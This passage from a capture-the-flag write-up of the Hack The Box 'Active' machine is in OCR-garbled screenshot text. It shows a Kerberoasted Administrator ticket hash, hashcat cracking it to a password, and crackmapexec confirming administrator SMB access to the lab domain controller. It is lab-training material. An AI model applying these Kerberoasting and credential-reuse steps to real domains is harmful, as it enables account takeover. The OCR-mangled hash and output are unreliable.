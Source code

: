 ![Machine generated alternative text:
\$krb5tgs\$23\$\*Administrator\$ACTIVE . HTB\$active .
htb/Administrator\*\$d59a317c5bøeb15a91dfcd7ø9b33fe71\$37e6ø3ab659fd5648132c76Ø3fc77b9232d4øf4fca99f2aa1e9d8d35dd7Ø49aecø
f65f455daøø7fb692føbb5dd6cb5218116edc11342349f7363352b52d3f492cc45baa65a9c35bd522f5632b44e2ø494afec8ceø66b1d52787177a696fb8øa7a4ae6cøff377b439a5972314f74519a4c6f45
919076ca8be3bd4127b1b789e94127ø5546ø1d72f34755fabf462dd7f5d97f9a1ø6c8773c169b577øø2adcaø92d3726d3ø9899øb164dø78ødfad795a4dc73d7c492cfa2318f1166e96e3f48c8bbb4daefc8
09fd72bf266663c4d1døaf841b44b531be8fa22cabacøde8f786943b5fcbf3257c51bb752d495a6fe5ca74a9c788f5bb36øc559a5eø565fc9716Ø84d2378Ø5ba137bd2926b875øeff971499e1f9df6ød1bd
7dØ1f8øf9a286ad88abad82b86ff19e45e55a2c5bd3e2a58f6b9a92f5Ø22Ø97b89ddc366Ø6e5a9fc14dccfe125cc1f6726ed53c311dcø5a7Øaa5aaf55f8522989ebac4cce67373979ffac54343f3684c2aø
5afc3ø7117ø483fae32d81395ø9efff7d4b3163e4b58eøbbfad848ø4caøcadc6f82815333aø64b2d5Ø6aa56248683d61859d3e25cc8d9c38baØ9221193dfd47297766ba8f93fd16c39d2c43e392øø9ø712c
If66388bc25Ø6abfecb3f4446cbc44Ø9c455Ø46bbf86b2242859cba692øa4b7cf4e2c422fe2ca3c29898b3b7c5fd6d9Ø12e12b52993aøø66c5fbcb8457ad13aba7øcac47f6Ø5aø7Øbf94aøø7e86baøø4fd2
d9c8ø61c97fce84a25de454963f9c9239675e13c53eda8caaace676baØ2cfbb1e9efd4bd51b683417a139888afa8283øc763ec84521cf1a74c2aø8d919932a431d1e7e15e989e42c9f67e218cbd2b242256
ceaad5b36d97b1a3øeceefb3e11277e3e6f8742d7efØ62fØ7e854Ø8Ø64e7cdcdfdbec5f5da9adøe5d4ba1cdbaød11fbøab2aebafced11Øb3øa33fde8575b3ab5f9df44øcbd6665aacaaf2292a28c8ac73b5
9ee9326da9eødØ6e1dc7c9c7ce9189625øf5aø72øe9c723897døe74928afe6ee385e3c5386f77øøae8cø8e4ec11181bøøøfeøac91c7f21accab6cf592e1ba78bbed1ae3986b93d5f1993731e9cae73f3dc7
6453ab6ea3f22f69ad1e538d35963b754ed3f362ø5ae8b8e5bødaføøc33b8418cc3b22død9c4f82øf4de794øcac272cøadd4da35c914bf6øcd5ef835573cfa67489c9885ee98ø362a7ø38a83fdø7df6bf16
774038a8d1ø54c854863ø561c85d163d3ff23359eøcc79ca5cff766e1cøbe1574d1b2f4532ae74eb5øøc
: Ticketmaster1968 Hardware . Mon . Session\... Status. Hash . Mode..
Hash. Target\.... .. Time . Started. Time . Estimated . . Kernel.
Feature Guess . Base.. Guess.Queue\...\... Speed .t\$l.. Recovered\...
\..... Progress\.... \..... : Rejected. Restore. Point\.... Restore. Sub
. Candidate. Engine. Candidates .t\$l.. hashcat Cracked 13100 (Kerberos
5, etype 23, TGS-REP) \$krb5tgs\$23\$\*Administrator\$ACTIVE .
HTB\$active . htb/Ad . sat sep 9 2023 (14 secs) sat sep 9 2023 (ø secs)
Pure Kernel File (/usr/share/wordlists/rockyou. txt) 1/1 (løø.øø%)
eb5øøc 874.2 kH/s (ø.47ms) Accel:256 Loops:l Thr:l vec•.8 1/1 (løø.øø%)
Digests (total), 1/1 (løø.øø%) Digests (new) 10537472/14344385 (73.46%)
0/10537472 (ø.øø%) 10536960/14344385 (73.46%) Salt:ø Amplifier:ø-l
Iteration:ø-l Device Generator Tiffany95 Util: 82% 9 20: 44 : 46 Tiana87
2023 2023 Started: Stopped. Sat Sep Sat Sep
](media/image14.png){width="13.677083333333334in" height="5.71875in"}

 

From this we get a password of Ticketmaster1968

We can now check the username and password combination to see if they
can get a session

![Machine generated alternative text: (kali@ kali)-C ---\'Document s
\'Active \$ crackmapexec smb lø.lø.lø.løø Administrator active. htb
Ticketmaster1968 Windows 6.1 Build 7601 x64 (name: DC) (domain:
active.htb) (signing: True) (SMBv1 : False) (+1
active.htbXAdministrator:Ticketmaster1968 (pwn3d!) 10.10. 10.100 10.10.
10.100 445 445 ](media/image15.png){width="11.864583333333334in"
height="0.71875in"}

